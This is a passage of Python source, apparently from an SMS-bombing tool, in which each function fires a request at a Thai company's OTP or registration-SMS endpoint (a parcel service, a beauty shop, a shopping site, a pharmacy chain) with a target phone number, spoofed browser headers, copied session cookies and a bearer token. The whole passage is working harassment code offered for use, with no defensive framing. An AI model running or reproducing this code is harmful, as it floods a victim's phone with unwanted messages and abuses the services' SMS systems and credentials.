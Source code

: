 def api58(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.best-inc.co.th/account/sendlogincode",headers={"content-type": "application/x-www-form-urlencoded","authorization": "Bearer null","user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36"},data=f"phoneNumber=%22{phone}%22")
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api59(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.beauticool.com/?m=request_otp",headers={"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","content-type": "application/x-www-form-urlencoded; charset=UTF-8","cookie": "PHPSESSID=rhq2hpsfsr3u3ji2pie67j99u0;_ga=GA1.1.1106451021.1666928426;trustedsite_visit=1;loadapp=true;_ga_PZZ327LRJ2=GS1.1.1666928426.1.1.1666928451.0.0.0","x-requested-with": "XMLHttpRequest"},data=f"tel={phone}")
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api60(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha_new?mobile=66-{phone[1:]}",headers={"User-Agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","Cookie": "_gcl_au=1.1.1240019298.1666928991; _gid=GA1.2.1014703120.1666928992; _gat_gtag_UA_42073293_1=1; _gat_UA-42073293-1=1; _ga=GA1.1.1652017962.1666928992; _tt_enable_cookie=1; _ttp=c9379e8a-4412-4cb2-9995-4cc812b3490b; _fbp=fb.1.1666928993552.476869943; _ga_YDQTL3X3WX=GS1.1.1666928992.1.0.1666928998.0.0.0"})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api61(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.watsons.co.th/api/v2/wtcth/forms/combinedRegistrationForm/steps/wtcth_combinedRegistrationForm_step1/validateAndPrepareNextStep?fields=ASIA_DEFAULT&lang=th&curr=THB",headers={"user-agent": generate_user_agent(),"authorization":"bearer KDT4GwC7WLHdgLurm3ChB_vvvBE"},json={"otpTokenRequest":{"action":"REGISTRATION","type":"SMS","countryCode":"66","target":phone},"defaultAddress":{"mobileNumberCountryCode":"66","mobileNumber":phone},"mobileNumber":phone})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	